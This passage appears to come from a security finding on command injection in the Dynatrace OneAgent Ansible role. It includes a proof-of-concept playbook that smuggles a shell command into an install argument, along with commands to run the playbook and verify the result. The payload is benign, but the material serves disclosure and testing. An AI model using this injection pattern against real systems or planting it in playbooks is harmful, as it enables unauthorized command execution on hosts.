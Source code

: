     - **Visualization:** `[User Input] --> oneagent_install_args/platform_install_args --> _oneagent_all_install_args --> join(' ') --> ansible.builtin.command (sh installer) --> Shell Execution (Injection) --> Compromise`.
*   **Security Test Case:**
    1. **Precondition:** Ansible setup, target Linux/AIX machine.
    2. **Malicious Playbook (`exploit_install_unix.yml`):**
    ```yaml
    ---
    - name: "Exploit Command Injection in OneAgent Installer (Unix)"
      hosts: all
      vars:
        oneagent_environment_url: "https://<your-dynatrace-environment-url>"
        oneagent_paas_token: "<your-paas-token>"
        oneagent_install_args:
          - "INSTALL_PATH=/opt; touch /tmp/pwned_installer" # Command Injection
      tasks:
        - name: Import Dynatrace OneAgent role
          ansible.builtin.import_role:
            name: dynatrace.oneagent.oneagent
    ```
    3. **Run Playbook:** `ansible-playbook exploit_install_unix.yml -i <target_host>, -u <ansible_user> -k --become`.
    4. **Verification:** Check for `/tmp/pwned_installer` on target (Linux/AIX) via `ssh <ansible_user>@<target_host> "ls /tmp/pwned_installer"`. File existence confirms command injection.